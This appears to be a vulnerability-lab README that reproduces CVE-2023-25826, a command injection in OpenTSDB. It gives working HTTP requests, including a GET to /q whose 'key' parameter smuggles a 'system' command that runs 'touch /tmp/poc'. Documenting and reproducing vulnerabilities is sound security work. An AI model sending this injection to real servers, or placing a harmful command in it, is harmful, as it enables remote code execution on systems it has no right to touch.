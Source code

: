 # OpenTSDB Arbitrary Command Injection Remote Code Execution（CVE-2023-25826）

[中文版本(Chinese version)](README.zh-cn.md)

OpenTSDB is a distributed, scalable Time Series Database (TSDB) written on top of HBase.
In version 2.4.1 and earlier, there is a command injection vulnerability. This vulnerability is actually due to an incomplete fix for CVE-2020-35476, so the entire reproduction process is similar to the previous one.

References:

- https://www.synopsys.com/blogs/software-security/opentsdb/
- https://github.com/OpenTSDB/opentsdb/pull/2275

## Environment

Execute the following command to start a OpenTSDB server 2.4.1:

```
docker-compose up -d
```

Once the service is started, visit `http://your-ip:4242` to see the web interface of the OpenTSDB.

## Exploit

Simialar as CVE-2020-35476, you need to know the name of a metric, visit `http://your-ip:4242/api/suggest?type=metrics&q=&max=10`to find out the metric list.

Due to the `tsd.core.auto_create_metrics` is set to `true` in this vulnerable OpenTSDB, you can create a metric named `sys.cpu.nice` through following request, if the metrics are empty:

```
POST /api/put/ HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 150

{
    "metric": "sys.cpu.nice",
    "timestamp": 1346846400,
    "value": 20,
    "tags": {
       "host": "web01",
       "dc": "lga"
    }
}
```

If at least one metric exists and is not empty, the above request is not required.

Then the POC is different here, with the difference in the "key" parameter.

```
GET /q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=1&xrange=&y2range=[42:42]&key=%3Bsystem%20%22touch%20/tmp/poc%22%20%22&wxh=1516x644&style=linespoint&baba=lala&grid=t&json HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close


```

![](1.png)

`touch /tmp/poc` has been successfully executed:

![](2.png)

